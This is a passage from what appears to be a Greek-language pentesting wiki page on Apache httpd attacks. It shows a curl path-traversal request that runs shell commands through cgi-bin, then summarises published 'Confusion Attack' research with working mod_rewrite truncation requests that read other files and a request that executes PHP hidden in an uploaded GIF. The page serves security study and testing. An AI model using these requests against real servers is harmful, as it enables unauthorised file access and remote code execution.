 {% code overflow="wrap" %}
```bash
curl http://172.18.0.15/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/bin/sh --data 'echo Content-Type: text/plain; echo; id; uname'
uid=1(daemon) gid=1(daemon) groups=1(daemon)
Linux
```
{% endcode %}

## Confusion Attack <a href="#a-whole-new-attack-confusion-attack" id="a-whole-new-attack-confusion-attack"></a>

Αυτοί οι τύποι επιθέσεων έχουν εισαχθεί και τεκμηριωθεί [**από την Orange σε αυτή την ανάρτηση του blog**](https://blog.orange.tw/2024/08/confusion-attacks-en.html?m=1) και η παρακάτω είναι μια περίληψη. Η επίθεση "σύγχυσης" βασικά εκμεταλλεύεται το πώς οι δεκάδες μονάδες που συνεργάζονται για να δημιουργήσουν έναν Apache δεν λειτουργούν τέλεια συγχρονισμένες και κάνοντάς τες να τροποποιήσουν κάποια απροσδόκητα δεδομένα μπορεί να προκαλέσει μια ευπάθεια σε μια επόμενη μονάδα.

### Filename Confusion

#### Truncation

Η **`mod_rewrite`** θα κόψει το περιεχόμενο του `r->filename` μετά τον χαρακτήρα `?` ([_**modules/mappers/mod\_rewrite.c#L4141**_](https://github.com/apache/httpd/blob/2.4.58/modules/mappers/mod\_rewrite.c#L4141)). Αυτό δεν είναι εντελώς λάθος καθώς οι περισσότερες μονάδες θα θεωρήσουν το `r->filename` ως URL. Αλλά σε άλλες περιπτώσεις αυτό θα θεωρηθεί ως διαδρομή αρχείου, κάτι που θα προκαλέσει πρόβλημα.

* **Path Truncation**

Είναι δυνατόν να εκμεταλλευτεί κανείς το `mod_rewrite` όπως στο παρακάτω παράδειγμα κανόνα για να αποκτήσει πρόσβαση σε άλλα αρχεία μέσα στο σύστημα αρχείων, αφαιρώντας το τελευταίο μέρος της αναμενόμενης διαδρομής προσθέτοντας απλά ένα `?`:
```bash
RewriteEngine On
RewriteRule "^/user/(.+)$" "/var/user/$1/profile.yml"

# Expected
curl http://server/user/orange
# the output of file `/var/user/orange/profile.yml`

# Attack
curl http://server/user/orange%2Fsecret.yml%3F
# the output of file `/var/user/orange/secret.yml`
```
* **Παραπλανητική Ανάθεση RewriteFlag**

Στον παρακάτω κανόνα επαναγραφής, όσο η διεύθυνση URL τελειώνει σε .php, θα αντιμετωπίζεται και θα εκτελείται ως php. Επομένως, είναι δυνατόν να σταλεί μια διεύθυνση URL που τελειώνει σε .php μετά τον χαρακτήρα `?` ενώ φορτώνεται στον δρόμο ένας διαφορετικός τύπος αρχείου (όπως μια εικόνα) με κακόβουλο php κώδικα μέσα σε αυτό:
```bash
RewriteEngine On
RewriteRule  ^(.+\.php)$  $1  [H=application/x-httpd-php]

# Attacker uploads a gif file with some php code
curl http://server/upload/1.gif
# GIF89a <?=`id`;>

# Make the server execute the php code
curl http://server/upload/1.gif%3fooo.php
# GIF89a uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
#### **ACL Bypass**
